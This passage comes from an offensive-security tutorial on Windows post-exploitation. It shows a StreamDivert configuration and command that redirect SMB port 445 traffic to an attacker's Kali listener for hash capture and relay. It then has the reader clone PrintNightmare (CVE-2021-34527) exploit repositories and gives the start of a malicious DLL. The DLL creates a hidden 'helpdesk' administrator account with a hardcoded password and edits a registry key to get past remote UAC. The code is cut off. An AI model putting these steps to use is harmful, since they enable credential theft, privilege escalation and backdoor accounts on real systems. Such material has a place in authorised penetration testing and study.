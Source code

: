 We can also hijack ports using `divertTCPconn` ([https://github.com/Arno0x/DivertTCPconn](https://github.com/Arno0x/DivertTCPconn)) or `StreamDivert` ([https://github.com/jellever/StreamDivert](https://github.com/jellever/StreamDivert)) as alternatives to the PortBender addon or C2. Here's a screenshot to demonstrate how they work. For demonstration purposes (and to capture interactive output), it was more effective to showcase this over RDP, although you can modify the project, compile the .exe, and inject it directly into memory - you will still need to plant the driver on the disk.

`config.txt`
```
tcp < 445 0.0.0.0 -> 10.10.24.100 64000 # divert SMB 445 to 64000
```

`StreamDivert.exe`
```
StreamDivert.exe config.txt -f
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/29-1.png)

When connecting to the machine's SMB port (.100), we've successfully tunneled traffic to our Kali machine's listener behind NAT.

This method is handy for hijacking SMB connections, obtaining hashes, and potentially exploiting SMB relay (which we'll cover in the next chapter) to gain immediate authentication on other servers. The more active connections to the server, the more opportunities we have – for instance, compromising an actively used SMB share and stealing credentials would be especially devastating.

## Exploitation

Next, download the PrintNightmare repository from [https://github.com/ly4k/PrintNightmare](https://github.com/ly4k/PrintNightmare) and create a .dll file for the Print Spooler service to execute, taking inspiration from John Hammond's example at [https://github.com/JohnHammond/CVE-2021-34527/blob/master/nightmare-dll/nightmare/dllmain.cpp](https://github.com/JohnHammond/CVE-2021-34527/blob/master/nightmare-dll/nightmare/dllmain.cpp). Additionally, let's add the user to more groups, and modify registry to allow remote commands.

```
git clone https://github.com/ly4k/PrintNightmare.git
git clone https://github.com/JohnHammond/CVE-2021-34527.git
```

`nightmare.cpp`
```
#include "pch.h"
#include <Windows.h>
#include <lm.h>
#include <iostream>
#include <fstream>

#pragma comment(lib, "netapi32.lib")

wchar_t username[256] = L"helpdesk";
wchar_t password[256] = L"G3t_somehelp_br0";
wchar_t administrators[256] = L"Administratorzy";
wchar_t remote_desktop_users[256] = L"Użytkownicy pulpitu zdalnego";
wchar_t remote_management_users[256] = L"Użytkownicy zarządzania zdalnego";
wchar_t remote_uac_bypass_key[1024] = L"HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"

BOOL APIENTRY DllMain(
    HMODULE hModule,
    DWORD  ulReasonForCall,
    LPVOID lpReserved                 
) {
    // Initialize user structure
    USER_INFO_1 user;
    HKEY key;
```